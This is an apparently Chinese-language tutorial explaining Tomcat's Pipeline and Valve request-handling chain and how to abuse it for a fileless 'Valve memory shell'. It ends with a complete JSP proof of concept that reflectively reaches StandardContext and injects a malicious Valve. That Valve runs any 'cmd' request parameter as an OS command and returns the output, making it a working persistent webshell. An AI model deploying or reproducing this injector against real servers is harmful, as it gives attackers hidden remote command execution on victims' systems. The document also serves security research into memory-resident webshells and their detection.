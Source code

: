 # 0x01 Tomcat Pipeline Mechanism

当Tomcat接收到客户端请求时，首先通过`Connector`解析成`ServletRequest`，再发送到`Container`进行处理。

`Container`下面有四个子容器，Engine、Host、Context、Wrapper，这四个组件不是平行的，而是父子关系。

消息在这四个子容器中层层传递，最终发送给Servlet进行处理。这个过程就涉及到了Tomcat管道机制。

Pipeline：管道

Valve：阀门

我们传递的信息就像水流，在Pipeline里面流动。通过Valve，可以让水流流向不同的Pipeline，过滤水流的杂质。对比SpringMVC的拦截器，Pipeline 就相当于拦截器链，而Valve就相当于拦截器。

![image-20230204104545366](../.gitbook/assets/image-20230204104545366.png)

Pipeline 中会有一个最基础的 Valve（Basic），它始终位于末端（最后执行），它在业务上面的表现是封装了具体的请求处理和输出响应。

四大组件 Engine、Host、Context 以及 Wrapper 都有其对应的 Valve 类

- `StandardEngineValve`
- `StandardHostValve`
- `StandardContextValve`
- `StandardWrapperValve`

他们同时维护一个 StandardPipeline 实例

# 0x02 Analysis

下面分析的是Tomcat 9.0.20 ，Tomcat 8 可能会有稍微的差异。

Pipeline接口存在`addValve`方法，其实现类`StandardPipeline`实现了这个方法

`org.apache.catalina.core.StandardPipeline#addValve`

```java
public void addValve(Valve valve) {

    // Validate that we can add this Valve
    if (valve instanceof Contained)
        ((Contained) valve).setContainer(this.container);

    // Start the new component if necessary
    if (getState().isAvailable()) {
        if (valve instanceof Lifecycle) {
            try {
                ((Lifecycle) valve).start();
            } catch (LifecycleException e) {
                log.error(sm.getString("standardPipeline.valve.start"), e);
            }
        }
    }

    // 将Valve插入在Basic前一位
    if (first == null) {
        first = valve;
        valve.setNext(basic);
    } else {
        // 从first开始遍历，若下一个是basic，插入在前面
        Valve current = first;
        while (current != null) {
            if (current.getNext() == basic) {
                current.setNext(valve);
                valve.setNext(basic);
                break;
            }
            current = current.getNext();
        }
    }

    container.fireContainerEvent(Container.ADD_VALVE_EVENT, valve);
}
```

`org.apache.catalina.core.ContainerBase#getPipeline`用于获取当前容器的Pipeline

```java
/**
* Return the Pipeline object that manages the Valves associated with this Container.
*/
@Override
public Pipeline getPipeline() {
    return this.pipeline;
}
```

Valve接口定义了invoke方法

`public void invoke(Request request, Response response)`

只需在运行时向 Engine/Host/Context/Wrapper 这四种 Container 组件中的任意一个的pipeline 中插入一个我们自定义的 valve，在其中对相应的请求进行拦截并执行我们想要的功能。

前面的Filter内存马只对当前context 生效，而Valve 如果插到最顶层的container 也就是 Engine，则会对 Engine 下的所有的context 生效

之前用到的熟悉的`StandardContext`是`ContainerBase`的子类

因此先通过`StandardContext.getPipeline()`获取到`StandardPipeline`，再通过`StandardPipeline.addValve()`添加恶意Valve

# 0x03 POC

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>

<%
    class MyValve extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            try {
                String cmd = request.getParameter("cmd");
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
            } catch (Exception e) {
            } } }%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    standardContext.getPipeline().addValve(new MyValve());
    out.println("inject success");
%>
```

